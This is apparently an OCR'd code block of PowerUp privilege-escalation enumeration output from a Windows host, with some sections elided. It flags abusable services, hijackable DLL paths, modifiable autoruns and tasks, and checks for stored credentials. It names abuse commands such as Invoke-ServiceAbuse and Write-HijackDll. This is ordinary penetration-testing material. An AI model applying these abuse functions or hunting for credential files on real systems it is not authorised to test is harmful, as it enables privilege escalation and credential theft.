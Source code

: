 ```
……内容太多，此处省略……

[*] Checking service permissions...
[+] received output:
ServiceName   : AeLookupSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs
StartName     : localSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AeLookupSvc'
CanRestart    : True
……内容太多，此处省略……

[*] Checking %PATH% for potentially hijackable DLL locations...
[+] received output:
Permissions       : GenericAll
ModifiablePath    : C:\Windows\system32\WindowsPowerShell\v1.0\
IdentityReference : BUILTIN\Administrators
%PATH%            : %SystemRoot%\system32\WindowsPowerShell\v1.0\
AbuseFunction     : Write-HijackDll -DllPath 'C:\Windows\system32\WindowsPowerS
                    hell\v1.0\\wlbsctrl.dll'
……内容太多，此处省略……

[*] Checking for AlwaysInstallElevated registry key...
[*] Checking for Autologon credentials in registry...

[*] Checking for modifidable registry autoruns and configs...
[+] received output:
Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\VMware Use
                 r Process
Path           : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
ModifiableFile : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files
                 \VMware\VMware Tools\vmtoolsd.exe; IdentityReference=BUILTIN\A
                 dministrators}
……内容太多，此处省略……

[*] Checking for modifiable schtask files/configs...
[+] received output:
TaskName     : GoogleUpdateTaskMachineCore
TaskFilePath : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files (
               x86)\Google\Update\GoogleUpdate.exe; IdentityReference=BUILTIN\A
               dministrators}
TaskTrigger  : <Triggers xmlns="http://schemas.microsoft.com/windows/2004/02/mi
               t/task"><LogonTrigger><Enabled>true</Enabled></LogonTrigger><Cal
               endarTrigger><StartBoundary>2020-04-11T21:47:44</StartBoundary><
               ScheduleByDay><DaysInterval>1</DaysInterval></ScheduleByDay></Ca
               lendarTrigger></Triggers>
……内容太多，此处省略……

[*] Checking for unattended install files...
UnattendPath : C:\Windows\Panther\Unattend.xml

[*] Checking for encrypted web.config strings...
[*] Checking for encrypted application pool and virtual directory passwords...
[*] Checking for plaintext passwords in McAfee SiteList.xml files....
[+] received output:
[*] Checking for cached Group Policy Preferences .xml files....
[+] received output:
```
